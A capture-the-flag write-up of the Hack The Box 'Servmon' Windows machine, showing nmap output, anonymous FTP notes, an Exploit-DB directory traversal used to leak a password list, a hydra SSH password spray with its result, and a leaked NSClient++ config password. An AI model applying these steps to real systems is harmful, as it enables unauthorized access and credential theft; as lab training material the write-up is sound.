







# Hackthebox - Servmon

- Windows

- [Box on HTB](https://app.hackthebox.com/machines/ServMon)

  

## Nmap

```
┌─[gabrielle@parrot]─[~]
└──╼ $sudo nmap -Pn -sV -sC 10.10.10.184
[sudo] password for gabrielle: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-23 20:19 EDT
Nmap scan report for 10.10.10.184
Host is up (0.054s latency).
Not shown: 991 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c71af681ca1778d027dbcd462a092b54 (RSA)
|   256 3e63ef3b6e3e4a90f34c02e940672e42 (ECDSA)
|_  256 5a48c8cd39782129effbae821d03adaf (ED25519)
80/tcp   open  http
|_http-title: Site doesn't have a title (text/html).
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  tcpwrapped
6699/tcp open  tcpwrapped
8443/tcp open  ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
|_ssl-date: TLS randomness does not represent time
| http-title: NSClient++
|_Requested resource was /index.html
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.93%I=7%D=9/23%Time=650F809A%P=x86_64-pc-linux-gnu%r(NULL
SF:,6B,"HTTP/1\.1\x20408\x20Request\x20Timeout\r\nContent-type:\x20text/ht
SF:ml\r\nContent-Length:\x200\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n
SF:\r\n")%r(GetRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20tex
SF:t/html\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x
SF:20\r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20X
SF:HTML\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/D
SF:TD/xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.
SF:org/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\
SF:x20\x20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x2
SF:0\x20\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")
SF:%r(HTTPOptions,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/htm
SF:l\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\
SF:n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\
SF:x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xh
SF:tml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1
SF:999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x
SF:20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20
SF:\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%r(RT
SF:SPRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html\r\n
SF:Content-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\r\n
SF:\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201\
SF:.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1-
SF:transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1999/x
SF:html\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x20\x2
SF:0<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20\x20\
SF:x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8443-TCP:V=7.93%T=SSL%I=7%D=9/23%Time=650F80A2%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,74,"HTTP/1\.1\x20302\r\nContent-Length:\x200\r\nLocation
SF::\x20/index\.html\r\n\r\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\x12\x02\x18\0\x1aE\n\x07workers\x12\x0b\n\x04jobs\x12\x03\
SF:x18\xd8\x01\x12")%r(HTTPOptions,36,"HTTP/1\.1\x20404\r\nContent-Length:
SF:\x2018\r\n\r\nDocument\x20not\x20found")%r(FourOhFourRequest,36,"HTTP/1
SF:\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20found")%r
SF:(RTSPRequest,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocum
SF:ent\x20not\x20found")%r(SIPOptions,36,"HTTP/1\.1\x20404\r\nContent-Leng
SF:th:\x2018\r\n\r\nDocument\x20not\x20found");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-24T00:21:17
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.34 seconds

```

### Port 21

We can connect anonymously  



Here are the content of the files we found

- Nathan/Notes to do.txt

```txt
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

- Nadine/Confidential.txt

```txt
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

### Port 80

We have a login web page

  

NVMS-1000 is a monitoring client specifically designed for network video surveillance.  
There are default creds but they do not work here

There is a directory traversal vulnerability we can find the exploit on exploit db [here](https://www.exploit-db.com/exploits/47774)

Using it we can check Nathan desktop as we are suppose to have passwords there. And it works!  



Here are all the passwords

```txt
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

### Port 8443

- `https://10.10.10.184:8443/index.html`



### SSH

Let's password spray with hydra and see if we can get a password

```txt
┌─[✗]─[gabrielle@parrot]─[~]
└──╼ $hydra -L users -P passwords 10.10.10.184 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-23 21:06:44
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14 login tries (l:2/p:7), ~4 tries per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-23 21:06:47
```

We can now connect to it  

  

We can see her privileges here  

  

We can take the user flag in Nadine desktop  

  

## Privilege Escalation

There is an exploit to privesc via nsclient++ https://www.exploit-db.com/exploits/46802

Also in the file C:\Program Files\NSClient++\nsclient.ini we have a password

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini
# If you want to fill this file with all available options run the following command: 
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1


; in flight - TODO
[/settings/NRPE/server]

; Undocumented key
ssl options = no-sslv2,no-sslv3

; Undocumented key
verify mode = peer-cert

; Undocumented key
insecure = false


; in flight - TODO
[/modules]

; Undocumented key
CheckHelpers = disabled

; Undocumented key
CheckEventLog = disabled

; Undocumented key
CheckNSCP = disabled

; Undocumented key
CheckDisk = disabled

; Undocumented key
CheckSystem = disabled

; Undocumented key
WEBServer = enabled

; Undocumented key
NRPEServer = enabled

; CheckTaskSched - Check status of your scheduled jobs.
CheckTaskSched = enabled

; Scheduler - Use this to schedule check commands and jobs in conjunction with for instance passive monitoring through NSCA
Scheduler = enabled

; CheckExternalScripts - Module used to execute external scripts 
CheckExternalScripts = enabled


; Script wrappings - A list of templates for defining script commands. Enter any command line here and they will be expanded by scripts placed under the wrapped scripts section. %SCRIPT% wil
l be replaced by the actual script an %ARGS% will be replaced by any given arguments.
[/settings/external scripts/wrappings]

; Batch file - Command used for executing wrapped batch files
bat = scripts\\%SCRIPT% %ARGS%

; Visual basic script - Command line used for wrapped vbs scripts
vbs = cscript.exe //T:30 //NoLogo scripts\\lib\\wrapper.vbs %SCRIPT% %ARGS%

; POWERSHELL WRAPPING - Command line used for executing wrapped ps1 (powershell) scripts
ps1 = cmd /c echo If (-Not (Test-Path "scripts\%SCRIPT%") ) { Write-Host "UNKNOWN: Script `"%SCRIPT%`" not found."; exit(3) }; scripts\%SCRIPT% $ARGS$; exit($lastexitcode) | powershell.exe /
noprofile -command -


; External scripts - A list of scripts available to run from the CheckExternalScripts module. Syntax is: `command=script arguments`
[/settings/external scripts/scripts]


; Schedules - Section for the Scheduler module.
[/settings/scheduler/schedules]

; Undocumented key
foobar = command = foobar


; External script settings - General settings for the external scripts module (CheckExternalScripts).
[/settings/external scripts]
allow arguments = true
```

